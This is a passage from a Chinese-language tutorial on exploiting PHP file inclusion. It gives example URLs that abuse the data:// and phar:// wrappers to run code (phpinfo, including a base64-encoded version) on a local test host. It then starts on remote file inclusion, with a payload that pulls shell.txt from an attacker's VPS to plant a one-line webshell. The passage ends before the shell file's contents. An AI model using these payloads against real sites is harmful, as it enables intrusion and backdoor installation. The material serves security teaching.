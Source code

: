 ### **data://**

**条件：**

> allow_url_fopen:on
>
> allow_url_include :on

**作用：**

> 自PHP>=5.2.0起，可以使用 data:// 数据流封装器，以传递相应格式的数据。
>
> 通常可以用来执行PHP代码

**示例：**

```bash
#1.data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>

#2.data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

### **phar://**

phar://协议与zip://类似，同样可以访问zip格式压缩包内容

```bash
http://127.0.0.1/include.php?file=phar://C:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```

> **利用条件 PHP > 5.3**
>
> 要想使用Phar类里的方法，必须将phar.readonly配置项配置为0或Off
>
> 利用 phar 协议可以拓展 php 反序列化漏洞攻击面

# 远程文件包含(RFL)

> 服务器通过 PHP 的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严格，
>
> 从而可以去包含一个恶意文件，攻击者就可以远程构造一个特定的恶意文件达到攻击目的。

## 漏洞利用

> **条件：**`php.ini`中开启`allow_url_include`、`allow_url_fopen`选项。

**1、远程包含Webshell**

```bash
?arg=http://攻击者的VPS/shell.txt
#会在网站目录生成名为 shell.php 的一句话木马
```

**shell.txt内容为：**
